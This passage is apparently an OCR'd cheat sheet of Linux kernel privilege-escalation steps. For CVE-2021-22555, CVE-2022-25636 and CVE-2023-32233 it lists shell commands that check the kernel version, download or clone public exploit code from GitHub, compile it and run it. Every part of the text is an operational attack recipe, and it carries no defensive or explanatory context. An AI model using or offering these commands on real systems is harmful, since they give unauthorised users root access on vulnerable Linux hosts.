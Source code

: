 ```Shell
uname -r
```

```Shell
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
```

```Shell
gcc -m32 -static exploit.c -o exploit
```

```Shell
./exploit
```
#### CVE-2022-25636
```Shell
git clone https://github.com/Bonfee/CVE-2022-25636.git
```

```Shell
cd CVE-2022-25636
```

```Shell
make
```

```Shell
./exploit
```
#### CVE-2023-32233
```Shell
git clone https://github.com/Liuk3r/CVE-2023-32233
```

```Shell
cd CVE-2023-32233
```

```Shell
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

```Shell
./exploit
```
